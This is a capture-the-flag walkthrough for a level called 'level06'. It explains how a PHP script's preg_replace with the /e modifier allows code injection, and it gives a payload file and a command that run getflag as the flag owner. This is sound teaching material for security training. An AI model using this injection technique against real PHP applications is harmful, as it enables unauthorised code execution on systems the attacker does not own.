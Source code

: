 # Level06

## Objective
Exploit the PHP script `level06.php` to execute the `getflag` command as the owner (`flag06`) using code injection.

## Steps

### Step 1: Examine PHP Script
Review the contents of the PHP script `level06.php`:

```php
#!/usr/bin/php
<?php
function y($m) { 
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

### Step 2: Understand Code Injection
The `x` function uses regular expressions to match the pattern `[x (code to execute)]`. To inject code, we need to create a temporary variable that will be evaluated.

### Step 3: Create Payload
Create a file in `/tmp` with the injected code:

```bash
echo '[x {${exec(getflag)}} ]' > /tmp/getflag
```

### Step 4: Execute Level06 with Payload
Run `./level06` with the created payload:

```bash
./level06 /tmp/getflag
```

### Step 5: Obtain Flag
The script should execute the injected code and print the flag.

Congratulations! You've successfully exploited the PHP script to execute the `getflag` command and retrieve the flag.
